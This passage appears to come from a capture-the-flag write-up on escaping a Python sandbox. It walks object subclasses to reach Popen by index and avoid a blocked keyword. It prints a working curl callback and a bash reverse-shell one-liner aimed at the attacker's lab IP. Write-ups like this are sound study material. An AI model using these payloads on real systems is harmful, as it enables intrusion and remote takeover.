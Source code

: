 The command printed all subclasses of the base `class object` in a list.
Looking line by line at the results of the `print` statement,  we found some interesting subclasses that appeared useful. One of them was `subclasses.Popen`, but we couldn't use the word `open`, so that was a problem. However, as we mentioned before, the sublasses were inside a `list`, so if we had the index of the subclass that we wanted to use, we could easily pass the arguments using the index. Using the code below, we were able to collect that information:

```python
x=(1).__class__.__bases__[0].__subclasses__()
for i,s in enumerate(x):
    print(f"i={i},s={s}",end="\t")
```

This code printed the subclasses in the following format: `index` `subclass`. The subclass that was of interest to us had the index `317`.

To check if that could work, we could launch a Python3 simple HTTP server using the command `python3 -m http.server` on our machine and use `curl`, for example, to try to connect to that service.

Using the following command:
 ```python
x=(1).__class__.__bases__[0].__subclasses__()[317](["/bin/bash","-c","curl http://10.10.14.145:8000"])
```
we received a connection on our web server.

RCE (Remote Code Execution):

![image_2025-03-25T16-15-59Z.png](i/image_2025-03-25T16-15-59Z.png)

Following this, we could change the above proof-of-concept (POC) code to a reverse shell, create a listener on our machine, and wait for the connection to be established.

Reverse shell w/ Bash:
`(1).__class__.__bases__[0].__subclasses__()[317](["/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.145/9001 0>&1"])`

![image_2025-03-25T16-24-40Z.png](i/image_2025-03-25T16-24-40Z.png)
